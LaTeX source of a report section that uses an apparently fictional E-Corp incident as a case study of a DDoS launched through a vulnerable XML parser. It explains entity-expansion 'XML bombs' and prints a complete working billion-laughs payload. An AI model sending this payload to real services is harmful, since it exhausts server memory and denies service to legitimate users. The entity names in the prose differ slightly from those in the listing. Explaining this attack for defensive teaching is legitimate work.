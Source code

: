 \documentclass[]{report}
\begin{document}
A few weeks after the application was released in the first quarter of 2012, the E-Corp web application crashed and the mobile application was getting server errors from the  with the API. Eventually, it was discovered that this was maliciously caused by an anonymous hacker who was able to run a Distributed Denial of Service (DDoS) attack against the E-Corp network through the new API built for the mobile application. This is an attack where a server is flooded with requests until it is either not able to serve legitimate users anymore or crash. It was revealed that this attack was made possible as the endpoints into the new API used a vunerable XML parser enabling the attacker to generate requests containing an "XML Bomb".
	
An XML bomb is an attack utilising a http request containing a small XML document that expands dramatically when parsed by a vulnerable XML parser. This XML document contains a entity "xmlbombs" at it's root that refers to another entity "xmlbomb9" however this also refers to 10 instances of "xmlbomb8" and so forth until it reaches "xmlbomb0". The XML parser reads the initial root entity, sees that it refers to another and expands on it, doing so continuously until it reaches the end. By this time, the XML document has expanded to take up a huge amount of the server's memory, slowing it down to the point where it can't process other user's requests or even crashing the server.
	
	\begin{lstlisting}[tabsize=1,frame=single,language=XML,basicstyle=\tiny, breaklines=true]
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xmlbombz [
<!ENTITY xmlbomb "xmlbomb">
<!ENTITY xmlbomb1 "&xmlbomb;&xmlbomb;&xmlbomb;&xmlbomb;&xmlbomb;&xmlbomb;&xmlbomb;&xmlbomb;&xmlbomb;&xmlbomb;">
<!ENTITY xmlbomb2 "&xmlbomb1;&xmlbomb1;&xmlbomb1;&xmlbomb1;&xmlbomb1;&xmlbomb1;&xmlbomb1;&xmlbomb1;&xmlbomb1;&xmlbomb1;">
<!ENTITY xmlbomb3 "&xmlbomb2;&xmlbomb2;&xmlbomb2;&xmlbomb2;&xmlbomb2;&xmlbomb2;&xmlbomb2;&xmlbomb2;&xmlbomb2;&xmlbomb2;">
<!ENTITY xmlbomb4 "&xmlbomb3;&xmlbomb3;&xmlbomb3;&xmlbomb3;&xmlbomb3;&xmlbomb3;&xmlbomb3;&xmlbomb3;&xmlbomb3;&xmlbomb3;">
<!ENTITY xmlbomb5 "&xmlbomb4;&xmlbomb4;&xmlbomb4;&xmlbomb4;&xmlbomb4;&xmlbomb4;&xmlbomb4;&xmlbomb4;&xmlbomb4;&xmlbomb4;">
<!ENTITY xmlbomb6 "&xmlbomb5;&xmlbomb5;&xmlbomb5;&xmlbomb5;&xmlbomb5;&xmlbomb5;&xmlbomb5;&xmlbomb5;&xmlbomb5;&xmlbomb5;">
<!ENTITY xmlbomb7 "&xmlbomb6;&xmlbomb6;&xmlbomb6;&xmlbomb6;&xmlbomb6;&xmlbomb6;&xmlbomb6;&xmlbomb6;&xmlbomb6;&xmlbomb6;">
<!ENTITY xmlbomb8 "&xmlbomb7;&xmlbomb7;&xmlbomb7;&xmlbomb7;&xmlbomb7;&xmlbomb7;&xmlbomb7;&xmlbomb7;&xmlbomb7;&xmlbomb7;">
<!ENTITY xmlbomb9 "&xmlbomb8;&xmlbomb8;&xmlbomb8;&xmlbomb8;&xmlbomb8;&xmlbomb8;&xmlbomb8;&xmlbomb8;&xmlbomb8;&xmlbomb8;">
]>
<xmlbombz>&xmlbomb9;</xmlbombz>
	\end{lstlisting}
	
\end{document}
